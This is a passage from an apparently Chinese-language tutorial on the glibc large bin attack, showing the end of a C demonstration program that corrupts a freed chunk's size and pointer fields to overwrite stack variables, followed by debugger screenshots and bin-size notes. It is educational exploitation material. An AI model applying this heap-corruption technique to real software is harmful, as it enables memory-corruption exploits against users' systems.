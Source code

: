    ```c
   
       free(p3);
       fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                       " [ %p <--> %p ]\n\n",
               (void *)(p3 - 2), (void *)(p3[0]));
   
       //------------VULNERABILITY-----------
   
       fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                       " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
       fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                       " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                       " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");
   
       p2[-1] = 0x3f1;
       p2[0] = 0;
       p2[2] = 0;
       p2[1] = (unsigned long)(&stack_var1 - 2);
       p2[3] = (unsigned long)(&stack_var2 - 4);
   
       //------------------------------------
   
       malloc(0x90);
   
       fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                       " During this time, targets should have already been rewritten:\n");
   
       fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
       fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
   
       return 0;
   }
   ```

   断点在这里：
   
   ![image-20240724185742596](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241900848.png)
   
   由于刚 free() 掉了两个 chunk。现在的 **unsorted bin 有两个空闲的 chunk** ： 
   
   ![image-20240724185934115](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241859512.png)
   
   ![image-20240724190415719](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241904798.png)
   
   要注意的是：p1 的大小是 `0x330 < 0x3f0(small bin范围0x80~0x3f0)` 大小**属于 small bin**，而 p2 的大小是 `0x410` **属于 large bin** 。
   